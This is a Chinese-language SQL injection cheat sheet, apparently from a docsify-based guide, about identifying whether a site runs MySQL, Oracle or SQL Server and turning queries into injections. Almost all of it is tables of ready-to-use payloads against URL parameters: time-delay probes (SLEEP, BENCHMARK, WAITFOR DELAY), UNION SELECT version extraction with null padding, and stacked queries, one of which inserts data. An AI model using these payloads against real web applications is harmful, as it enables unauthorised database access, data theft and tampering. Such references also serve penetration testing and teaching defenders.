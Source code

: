 
###   DBMS识别 {docsify-ignore-all}

检测正在使用的数据库管理系统（DBMS）对于进一步利用注入来说至关重要。没有这些知识，就无法确定要查询的表，内置的函数以及要避免的检测。下面查询的成功响应表明正在使用所选的DBMS.

注意：注释字符 `--` 放置在查询后面，以删除查询后面的任何命令，有助于防止出现错误。


#### MySQL
| 描述   |      语句     |  
|----------|:-------------:|
| SLEEP |   page.php?id=1'-SLEEP(1)=0 LIMIT 1 --|
| BENCHMARK  |      page.php?id=1'-BENCHMARK(5000000, ENCODE('Slow Down','by 5 seconds'))=0 LIMIT 1 --     | 
| 字符串连接   |     page.php?id=' 'mysql' --     | 
| 错误消息<br />注意：通过无效语法触发数据库错误<br />有时会返回包含DBMS名称的详细错误消息。   |      page.php?id='   | 



#####   一般提示

PHP应用程序通常具有MySQL数据库。

#####  将查询转换为注入

既然已经确定了注入点，本指南的其余部分将包含完整的查询。使用以下方法将这些查询插入注入点。`SELECT @@version`将是示例查询。

| 描述   |      语句     |  
|----------|:-------------:|
| 联合查询    |      product.php?id=' UNION SELECT @@version --     |  
| 联合子查询   |      product.php?id=' UNION (SELECT @@version) --     |  
| 联合null <br />注意：如果原始查询返回多个列，<br />则添加null以等于列数    |      product.php?id=4 UNION SELECT @@version,null --      |  
| 堆积式查询<br />注意：堆积式查询并不总是返回结果，<br />因此它们最适合用于更新/修改数据的注入。   |      product.php?id='; INSERT INTO 'docs' ('content') VALUES ((SELECT @@version)) --     |  





#### Oracle
| 描述   |      语句     |  
|----------|:-------------:|
| 字符串连接   |      page.jsp?id='&#124;&#124;'oracle' --     |  
| 默认表   |     page.jsp?id='UNION SELECT 1 FROM v$version --     |  
| 错误消息<br />注意：通过无效语法触发数据库错误<br />有时会返回包含DBMS名称的详细错误消息。  |      page.jsp?id='   |  
 

#####   一般提示

根据应用程序提供的错误，如果存在“ORA-XXXX”错误，其中每个X都是整数，则表示数据库是Oracle.

JSP应用程序通常具有Oracle数据库。



#####  将查询转换为注入


既然已经确定了诸如点，本指南的其余部分将包含完整的查询。使用以下方法将这些查询插入注入点。`SELECT banner FROM v$version`将是示例查询。


| 描述   |      语句     |  
|----------|:-------------:|
| 联合查询   |      product.jsp?id=' UNION SELECT banner FROM v$version --     |  
| 联合子查询   |      product.jsp?id=' UNION (SELECT banner FROM v$version) --     |  
| 联合null <br />注意:如果原始查询返回多个列，<br />则添加null以等于列数-1  |      product.jsp?id=' UNION SELECT banner,null FROM v$version --      |  



  

####  SQL Server

| 描述   |      语句     |  
|----------|:-------------:|
| WAITFOR 函数   |      page.asp?id=';WAITFOR DELAY '00&#58;00&#58;10'; --     | 
| 默认变量   |      page.asp?id=sql'; SELECT @@SERVERNAME --     | 
| 错误消息<br />注意：通过无效语法触发数据库错误<br />有时会返回包含DBMS名称的详细错误消息。   |      page.asp?id='  |  
| 错误消息<br />注意：如果id参数是整数，<br />则@@ SERVERNAME变量的字符串值可能导致转换错误。   |      page.asp?id=@@SERVERNAME     | 
| 错误消息<br />注意：如果id参数是整数，<br />则@@ SERVERNAME变量的字符串值可能导致转换错误。   |      page.asp?id=0/@@SERVERNAME     |  


###  一般提示
基于ASP / ASPX的应用程序一般都是MSSQL。

### 将查询转换为注入


既然已经确定了注入点，本指南的其余部分将包含完整的查询。使用以下方法将这些查询插入注入点。`SELECT @@version`将是示例查询。



| 描述   |      语句     |  
|----------|:-------------:|
| 联合查询   |      product.asp?id=' UNION SELECT @@version --     | 
| 联合子查询  |      product.asp?id=' UNION (SELECT @@version) --     |
| 联合null <br />注意：如果原始查询返回多个列，<br />则添加null以等于列数   |      product.asp?id=' UNION (SELECT @@version,null) --      |   
| 堆积式查询<br />注意：堆积式查询并不总是返回结果，<br />因此它们最适合用于更新/修改数据的注入。   |      product.asp?id='; SELECT @@version --     | 




    

    
